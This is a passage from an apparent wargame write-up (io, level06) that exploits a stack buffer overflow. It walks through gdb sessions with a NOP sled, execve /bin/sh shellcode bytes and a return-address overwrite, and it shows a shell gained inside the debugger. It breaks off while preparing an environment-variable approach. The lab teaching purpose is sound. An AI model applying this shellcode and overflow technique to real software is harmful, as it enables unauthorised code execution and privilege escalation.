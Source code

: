     We can see that the return address has been overridden with `0x46454443`, the 'CDEF' we added at the end of the payload. Then the NOP sled makes it easy to select an address, and we still have 23 bytes available for our payload. Let's select the address `0xbffffb10`:


    (gdb) r $(python -c "print '\x90'*17 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + ' ' + 'B'*26 + '\x10\xfb\xff\xbf'")
    Starting program: /levels/level06 $(python -c "print '\x90'*17 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + ' ' + 'B'*26 + '\x10\xfb\xff\xbf'")
    /bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
    Bienvenue 1Ph//shh/binS̀BBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x08048591 in greetuser ()
    (gdb) x/44 $esp
    0xbffffaf0:     0xbffffb00      0xbffffb50      0xbffffb14      0x0804993c
    0xbffffb00:     0x6e656942      0x756e6576      0x90902065      0x90909090
    0xbffffb10:     0x90909090      0x90909090      0x31909090      0x2f6850c0
    0xbffffb20:     0x6868732f      0x6e69622f      0x5350e389      0x0bb0e189
    0xbffffb30:     0x424280cd      0x42424242      0x42424242      0x42424242
    0xbffffb40:     0x42424242      0x42424242      0x42424242      0xbffffb10
    0xbffffb50:     0x90909000      0x90909090      0x90909090      0x90909090
    0xbffffb60:     0x50c03190      0x732f2f68      0x622f6868      0xe3896e69
    0xbffffb70:     0xe1895350      0x80cd0bb0      0x42424242      0x42424242
    0xbffffb80:     0x42424242      0x42424242      0x42424242      0x42424242
    0xbffffb90:     0xfb104242      0x0000bfff      0x00000000      0x080482da

The payload is in memory and the address is correct, let's hope it works:

    (gdb) c
    Continuing.
    process 8585 is executing new program: /bin/bash
    sh-4.3$ whoami
    level6

Nice! We have a shell, but the current user is still level6, that's because we're running from withing gdb, let's port that outside:

    level6@io:/levels$ LANG=fr; ./level06 $(python -c "print '\x90'*17 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + ' ' + 'B'*26 + '\x08\xfb\xff\xbf'")
    Bienvenue 1Ph//shh/binS̀BBBBBBBBBBBBBBBBBBBBBBBBBB
    Segmentation fault

Hmm, it seems that the passed address is not valid, or at least that it's not where the NOP sled is stored.

Let's try with env variable instead.

To get the memory address of an environment variable I used this very simple script:

    #include <stdlib.h>
    #include <stdio.h>

    int main(int argc, char *argv[]) {
        printf("%s => %p\n", argv[1], getenv(argv[1]));
        return 0;
    }
